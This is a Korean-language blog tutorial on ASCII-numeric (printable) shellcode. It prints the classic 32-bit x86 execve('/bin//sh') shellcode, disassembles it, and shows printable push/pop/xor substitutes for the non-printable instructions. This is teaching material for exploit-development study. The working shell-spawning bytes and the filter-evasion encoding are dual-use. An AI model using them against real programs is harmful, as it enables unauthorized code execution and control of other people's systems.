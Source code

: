 ```yaml
---
layout: post
title: ! "Ascii Numeric ShellCode"
excerpt_separator: <!--more-->
comments : true
tags:
  - Shellcode
  - Ascii
  - t4ngo
---
```


제가 얼마 전에 아주 재밌게 보았던! Ascii ShellCode에 대해 설명하여 볼까 합니다. Ascii-Numeric-ShellCode란 출력 가능한 Ascii 문자들로 이루어진 쉘 코드를 뜻하며 다형성 쉘코드의 한 종류입니다!

출력 가능한 Ascii 문자들로 이루어진 쉘 코드가 무슨 말이냐?

지금부터 저와 함께 알아보시죠! GOGOGO~~!

<!--more-->

먼저, 우리가 흔히 알고 있는 Basic한 32-bit Shell code를 봐 볼까요?

- `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80`

보통 우리는 Simple한 ShellCode Exploit을 할 때 보통 위와 같은 쉘 코드를 주로 사용합니다!

좀 더 보기 쉽게 disassemble 해 볼까요?

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

Online Assembler로 간단하게 Disassemble하면 위와 같은 Assembly 코드를 볼 수가 있습니다.

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
```

코드를 보면 위 코드에서 스택에 0을 push합니다. 

```
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
```

그런 다음 현재 코드에서 스택에 "/bin//sh(0x68732f2f, 0x6e69622f)"을 push하는 것을 알 수 있죠?

```
d:  89 e3                   mov    ebx,esp
```

다시 코드를 쭈~욱 보면 아래 코드를 통해 스택에 궁극적으로 "/bin//sh"의 포인터를 ebx 레지스터에 넣습니다.

```
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
```

그리고, 0을 edx 레지스터에 넣은 후

```
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
```

ecx 레지스터에 "/bin//sh"이 저장된 곳의 포인터를 ecx 레지스터에 넣어 줍니다! 여기까지 잘 따라오셨나요?

```
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

그리고 마지막으로 al 레지스터에 0xb를 넣고 `'int 0x80'` 명령어를 통해 syscall을 수행하여 쨘~ 하고 쉘을 띄워줍니다!

여기까지가 보통 32-bit Shell Code입니다! 그렇다면!!! 드디어! Ascii-Numeric-ShellCode와는 무엇이 다른가?!

먼저, Ascii-Numeric-ShellCode는 위애서 설명했든 출력 가능한, printable한 hex 값들로 이루어진 Shellcode를 뜻합니다.

다시 위의 32-bit Shell Code를 봐 볼까요?

```
0:  31 c0                   xor    eax,eax
2:  50                      push   eax
3:  68 2f 2f 73 68          push   0x68732f2f
8:  68 2f 62 69 6e          push   0x6e69622f
d:  89 e3                   mov    ebx,esp
f:  50                      push   eax
10: 89 e2                   mov    edx,esp
12: 53                      push   ebx
13: 89 e1                   mov    ecx,esp
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

- `\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80
`

현재의 hex 값에는 Ascii 코드로 표현하지 못하는 hex 값이 존재합니다! 즉, Ascii table에 없는 hex 값이라 printable하지 못하다는 것이겠죠?

![]({{site.baseurl}}/images/t4ngo/Ascii-Numeric-ShellCode/Ascii_Numeric_ShellCode_01.PNG)

출력 가능한 Ascii table의 범위는 0x20 ~ 0x7F까지입니다. 즉, 이 범위 안에 해당하는 hex 값들만 Ascii-Numeric-ShellCode로 사용이 가능하다는 뜻이겠죠?

그렇다면, 여러분은 현재의 32-bit ShellCode에서 Ascii의 범위를 벗어난 hex들을 찾으셨나요?

Ascii-Numeric-ShellCode란 바로 이런 Asciiable 하지 않은 hex 코드들을 Asciiable하게 바꿔주어 모든 hex 값이 출력 가능한 Ascii 값을 가진 Shell Code를 말합니다!!

위 코드에서 Asciiable 하지 않은 코드들을 뽑아볼까요?

1. 
```
0:  31 c0                   xor    eax,eax
```

2. 
```
d:  89 e3                   mov    ebx,esp
```

3. 
```
10: 89 e2                   mov    edx,esp
```

4. 
```
13: 89 e1                   mov    ecx,esp
```

5. 
```
15: b0 0b                   mov    al,0xb
17: cd 80                   int    0x80
```

위와 같은 코드 부분들이 모두 Ascii Table의 범위를 벗어났죠? 나쁜 녀석들이에요 ㅠㅠ.

그럼 이 hex 값들을 어떻게 바꿔주냐!! 지금부터 주목해주세요!

```
0:  31 c0                   xor    eax,eax
```

이 코드는

```
0:  6a 77                   push   0x77
2:  58                      pop    eax
3:  34 77                   xor    al,0x77
```

쨘! 이렇게 바꿔 줄 수 있겠죠? 결과적으로 `'xor eax,eax'`가 하는 일은 eax 레지스터에 0을 담는 것이므로 코드를 아래와 같이 바꿔 줄 수 있어요! ㅎㅎ

또한, 그 때마다 Binary의 레지스터 상황을 보고 유연하게 쉘 코딩도 할 수 있죠!

예를 들면, 쉘 코드를 호출하기 직전에 eax 레지스터에 0x01이 들어있었다! 그러면 코드를 `'dec eax'`로 수정해주면 eax 레지스터는 0이 되겠죠? (오옹! >_O)

그 다음! mov 코드들은 어떻게 바꿔주냐! mov도 마찬가지로 push, pop으로 해결이 가능합니다! ㅎㅎ

2번 코드를 push, pop으로 구현하면...

```
0:  54                      push   esp
1:  5b                      pop    ebx
```

위와 같은 코드로 바꿀 수 있겠죠? 스택에 esp를 push하고 ebx로 pop을 해주면서 `'mov ebx, esp'`와 같은 동작을 하게 됩니다!

mov 명령들은 위와 같이 해결해 주면 되고!

```
17: cd 80                   int    0x80
```

다음은, syscall 부분! 사실 이 부분이 제일 핵심이죠! 왜냐? `'int 0x80'`은 대체 할 수 있는 명령어가 거의 없기 때문이죠 ㅠㅠ

그렇기 때문에 앞서 말해드렸던 스택에 이미 존재하는 레지스터 값을 이용하여 syscall을 호출 하여야 하는데요! 

음... 가령 예를 들면 xo 

ecx 레지스터에 0xFFFF 값이 들어있다면 이 값을 활용하여 `'xor ecx, 0x327F'`를 해줘서 `'cd 80'` hex를 만들어 준 뒤 이 값을 활용하여 eip에 넣어주도록 스택의 상황에 맞게 조작하여 주면 됩니다!

사실, 이 부분은 Binary 마다 호출 당시 스택의 상황이나 레지스터의 상황이 다 다르기 때문에 이런식으로 원리를 설명드리는 방법이 최선인 것 같아요 ㅠㅠ

이 외에도 레지스터나 스택에 남아 있는 값들을 활용하여 `'cd 80'`을 만들어 주면 되는데 핵심은 스택에 `'cd 80'`을 만들어 주고 그 값을 활용하여 syscall을 한다는 것만 기억하면 됩니다!

Ascii-Numeric-ShellCode를 만드는 것이 이렇게 해서 이렇게 하면 이렇게 돼! 하고 딱 정의 되어 있지 않고 그때그때 스택의 상황이나 레지스터의 상황을 보며 자신에게 가장 알맞는 코드를 선택하여 쉘 코딩해주면 되기 때문에 대략 이런 원리로 Ascii-Numeric-ShellCode가 만들어 진다는 점만 기억해주시면 될 것 같습니다!

이제 여러분의 레지스터나 스택 상황에 맞게 창의성을 발휘하여 Ascii-Numeric-ShellCode를 만들어 보세요~~!!! 화이팅!
